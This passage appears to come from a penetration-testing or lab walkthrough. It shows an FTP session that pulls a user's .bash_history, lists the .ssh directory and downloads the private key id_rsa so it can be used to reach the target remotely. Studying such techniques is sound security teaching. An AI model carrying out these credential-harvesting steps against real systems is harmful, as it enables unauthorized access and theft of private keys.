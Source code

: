 ```shell
ftp> get .bash_history

local: bash_history remote: bash_history
229 Entering Extended Passive Mode (|||39373|)
150 Opening BINARY mode data connection for bash_history (1285 bytes)
100% |**********************************************|  1285       51.01 KiB/s    00:00 ETA
226 Transfer complete
1285 bytes received in 00:00 (10.95 KiB/s)

```

Another potential goldmine is the `.ssh` directory. This directory (most of the time) is used to store files related to SSH, such as private keys, configs, and more. From those files, we could identify other machines/targets for remote access, or possibly obtain a private key that could be used gain remote access to the current target. Therefore, let’s use the `cd` command to change directory to `.ssh` and list all files within it.

```shell
ftp> cd .ssh

250 CWD command successful

ftp> ls -al

229 Entering Extended Passive Mode (|||26184|)
150 Opening ASCII mode data connection for file list
-rw-------   1 john     john         2602 Feb 12 13:55 id_rsa
-rw-r--r--   1 john     john          565 Feb 12 13:55 id_rsa.pub
226 Transfer complete

```

As you can see, there are two files in it - `id_rsa` and `id_rsa.pub` . When SSH keys are generated, and the user doesn’t modify them, these names are used by default. The `id_rsa` and `id_rsa.pub` files are a pair of SSH keys used for authentication:

- `id_rsa` is the private key that should be kept secret and never shared

- `id_rsa.pub` is the public key that can be shared with other systems


These keys work together like a lock and key. The public key ( `id_rsa.pub`) is installed on remote machines you want to connect to, while the private key ( `id_rsa`) on your local machine proves your identity. Now, let’s download the private key and exit the FTP connection.

```shell
ftp> get id_rsa

local: id_rsa remote: id_rsa
229 Entering Extended Passive Mode (|||41007|)
150 Opening BINARY mode data connection for id_rsa (2602 bytes)
100% |**********************************************|  2602      108.80 KiB/s    00:00 ETA
226 Transfer complete
2602 bytes received in 00:00 (22.28 KiB/s)

ftp> exit

221 Goodbye.

```
